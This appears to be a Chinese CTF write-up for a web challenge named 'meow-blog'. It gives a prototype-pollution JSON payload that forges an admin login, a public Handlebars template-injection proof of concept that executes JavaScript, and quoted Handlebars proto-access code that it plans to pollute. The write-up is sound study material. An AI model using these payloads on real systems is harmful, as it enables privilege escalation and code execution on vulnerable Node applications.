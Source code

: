 ## Web
### meow-blog

 原型链污染，获取admin权限
 
![](attachments/Pasted%20image%2020231017203527.png)

`{"username":"wum0nster","password":"123","submit":[{"__proto__":{"user":{"id":1,"username":"admin","style":"wum0nster"}}},"1"]}`

模板注入漏洞点

![](attachments/Pasted%20image%2020231018083914.png)

![](attachments/Pasted%20image%2020231018084420.png)

[Prototype Pollution in handlebars · CVE-2021-23383 · GitHub Advisory Database](https://github.com/advisories/GHSA-765h-qjxv-5f44)

[Remote Code Execution (RCE) in handlebars | CVE-2021-23369 | Snyk](https://security.snyk.io/vuln/SNYK-JS-HANDLEBARS-1056767)

```js
<script src="https://cdn.jsdelivr.net/npm/handlebars@latest/dist/handlebars.js"></script> 
<script> 
// compile the template 
var s = ` 
{{#with (__lookupGetter__ "__proto__")}} 
{{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}} 
{{#with ../constructor.prototype}} 
{{../../constructor.defineProperty . "hasOwnProperty" ..}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{#with "constructor"}} 
{{#with split}} 
{{pop (push "alert('Vulnerable Handlebars JS when compiling in strict mode');")}} 
{{#with .}} 
{{#with (concat (lookup join (slice 0 1)))}} 
{{#each (slice 2 3)}} 
{{#with (apply 0 ../..)}} 
{{.}} 
{{/with}} 
{{/each}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{/with}} 
`; 
var template = Handlebars.compile(s, { 
strict: true 
}); 
// execute the compiled template and print the output to the console console.log(template({})); 
</script>
```

[运行时参数 | Handlebars中文文档 | Handlebars中文网 (handlebarsjs.cn)](https://www.handlebarsjs.cn/api-reference/runtime-options.html#%E6%8E%A7%E5%88%B6%E5%8E%9F%E5%9E%8B%E8%AE%BF%E9%97%AE%E7%9A%84%E9%80%89%E9%A1%B9)

在题目环境中升级到了4.7.7，禁用原本的一些键

![](attachments/Pasted%20image%2020231018093750.png)



对应函数[handlebars.js/lib/handlebars/internal/proto-access.js at 1fc4ef09c1ac0ffb4c0f88ca685f44d1e0f32f89 · handlebars-lang/handlebars.js (github.com)](https://github.com/handlebars-lang/handlebars.js/blob/1fc4ef09c1ac0ffb4c0f88ca685f44d1e0f32f89/lib/handlebars/internal/proto-access.js#L27)

```JS
export function createProtoAccessControl(runtimeOptions) {
  let defaultMethodWhiteList = Object.create(null);
  defaultMethodWhiteList['constructor'] = false;
  defaultMethodWhiteList['__defineGetter__'] = false;
  defaultMethodWhiteList['__defineSetter__'] = false;
  defaultMethodWhiteList['__lookupGetter__'] = false;

  let defaultPropertyWhiteList = Object.create(null);
  // eslint-disable-next-line no-proto
  defaultPropertyWhiteList['__proto__'] = false;

  return {
    properties: {
      whitelist: createNewLookupObject(
        defaultPropertyWhiteList,
        runtimeOptions.allowedProtoProperties
      ),
      defaultValue: runtimeOptions.allowProtoPropertiesByDefault,
    },
    methods: {
      whitelist: createNewLookupObject(
        defaultMethodWhiteList,
        runtimeOptions.allowedProtoMethods
      ),
      defaultValue: runtimeOptions.allowProtoMethodsByDefault,
    },
  };
}
```

对`allowedProtoMethods`做污染

